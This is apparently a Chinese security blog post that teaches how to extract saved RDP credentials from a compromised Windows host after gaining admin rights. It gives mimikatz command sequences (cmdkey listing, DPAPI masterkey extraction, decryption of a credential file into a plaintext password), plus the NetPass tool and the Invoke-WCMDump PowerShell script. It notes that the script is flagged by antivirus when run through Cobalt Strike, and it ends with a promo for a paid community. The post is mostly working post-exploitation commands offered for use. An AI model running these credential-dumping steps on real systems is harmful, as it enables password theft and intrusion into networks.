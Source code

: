 **目录**

[mimikatz抓取](#t0 "mimikatz抓取")

[NetPass抓取](#t1 "NetPass抓取")

[PowerShelll脚本抓取](#t2 "PowerShelll脚本抓取")

* * *

当我们拿到了机器的管理员权限后，想获取其[RDP](https://so.csdn.net/so/search?q=RDP&spm=1001.2101.3001.7020)登录历史保存的凭据。那么，该如何操作呢？

### mimikatz抓取

首先，执行以下命令查看目标机器是否存在RDP凭据

```
#查看mstsc的连接纪录      
cmdkey /list        
#查找本地的Credentials：      
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```


 ![](https://img-blog.csdnimg.cn/20200701230856283.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

存在的话，上传mimikatz，执行以下命令，记录 guidMasterKey 值

```
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\19DC8328D3873E6AB8EF6B081B771D2E"
```


![](https://img-blog.csdnimg.cn/20200701230856461.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

执行以下值，找到 guidMasterKey 值 对应的 MasterKey。上面的guidMasterKey在这里是GUID

```
mimikatz.exe "privilege::debug" "sekurlsa::dpapi"
```


![](https://img-blog.csdnimg.cn/20200701231144196.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

执行以下命令，使用上面记录的MasterKey破解指定的凭据：19DC8328D3873E6AB8EF6B081B771D2E 

```
mimikatz.exe "dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\19DC8328D3873E6AB8EF6B081B771D2E /masterkey:cf8ba397fe285a877997100a3b3fe3259821fe4cb7a47bd9dc8887296a4ff7914a2a3b04a5b8a96d4ce418937604e0a23799f990abb537a599130fce394eb114"
```


![](https://img-blog.csdnimg.cn/20200701231253819.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如图，破解出密码明文。

![](https://img-blog.csdnimg.cn/20200701231321918.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### NetPass抓取

如果直接远程桌面登上去的话，可以使用 netpass.exe 工具直接查看

![](https://img-blog.csdnimg.cn/20200710154202967.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### PowerShelll脚本抓取

```
Import-Module .\Invoke-WCMDump.ps1      
Invoke-WCMDump
```


![](https://img-blog.csdnimg.cn/20201130123954575.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用CS导入powershell脚本执行，但是会被报毒

![](https://img-blog.csdnimg.cn/20201130131054436.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
